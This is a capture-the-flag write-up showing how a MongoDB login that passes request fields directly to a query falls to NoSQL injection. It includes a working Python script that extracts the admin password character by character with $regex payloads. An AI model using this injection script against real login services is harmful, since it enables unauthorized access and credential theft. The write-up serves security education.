 ## HEROS DataBase Breach (Points: 275)

The problem statement goes like this:

![image](https://user-images.githubusercontent.com/98008131/164887944-66b09647-b371-4d27-9e62-7c1ae0b4a118.png)

So we have a link to the actual page and also a download link for the source code. The question also hints us that we need to fiddle with the mongoDB database. On the website, we are asked a username and a password:

![image](https://user-images.githubusercontent.com/98008131/164889475-94e36514-bd7b-4fc4-a289-5796c687e2a5.png)

Let us download the tar file and unzip it to see its contents. In the file `entrypoint.sh`, we see this bit of code:

![image](https://user-images.githubusercontent.com/98008131/164888016-302383bc-91ac-4551-8fdb-2e27a12ade53.png)

So this suggests that entries `username: admin` and `password: CHTB{f4k3_fl4g_f0r_t3st1ng}` are added to the collection named `users`. This suggests that the username for login must be `admin` and password must be the real flag.

Looking around in the source file, we see the following code in `routes/index.js`:

![image](https://user-images.githubusercontent.com/98008131/164888216-160753b5-ba07-4526-ab40-fe15559408da.png)

So, it destructures `username` and `password` from the body of the request and then does `User.find(username, password)`. We can see that the code doesnt try to find an exact match for the username string and password string, but rather passes them as arguments to `User.find`. So we can pass in objects that look like MongoDB queries as both username and password. We know the username will be `admin`. For the flag, this is what we can do: 

The flag must begin with `wannahack{`, so the first letter is definitely `w`. We can pass the following object as the password, `{"$regex":"^w"}`. This will try to search if there is any entry that has `username` `admin` and `password` begins with `w`. When it finds that, it will return `{"logged": 1, "message": "Login Successful, welcome back admin."}`. If we instead searched for `x` instead of `w`, it would have given a different response. So by this we can be sure that the flag begins with `w`. When we are sure of that, we can go further and check `wa`, `wb`, and so on. It will return success message everytime we correctly guess first few letters of the flag. Trying to exploit this, we come up with the following code:

```python
import requests
import string

url = "http://wannahack.copsiitbhu.co.in:2437/"
headers = {"content-type": "application/json"}

leaked_data = list("wannahack{")

while True:
	for character in string.printable:
		if character not in ['*', '+', '.', '?', '"', '\\']:

			print(f"trying {''.join(leaked_data) + character}")

			payload = (
				'{"username": {"$eq": "admin"}, "password": {"$regex":"^%s"}}'
				% (''.join(leaked_data) + character,)
				)

			r = requests.post(url + 'api/login', data=payload, headers = headers)

			if r.json() == {
			"logged": 1,
			"message": "Login Successful, welcome back admin."
			}:
				leaked_data.append(character)
				break
```

Running the code, we brute force through every letter one by one until we finally achieve the password. The code output goes as follows after running some time:

![image](https://user-images.githubusercontent.com/98008131/164888724-db6131b4-213f-4484-b1b2-d4eda5bdbf73.png)

Tinkering with the output, we get that the flag is `wannahack{y0u_5u5t_H@ck3d_M0NG0_D5}`

The following youtube video definitely helped in formulating the solution: https://www.youtube.com/watch?v=7kmttmmlygc
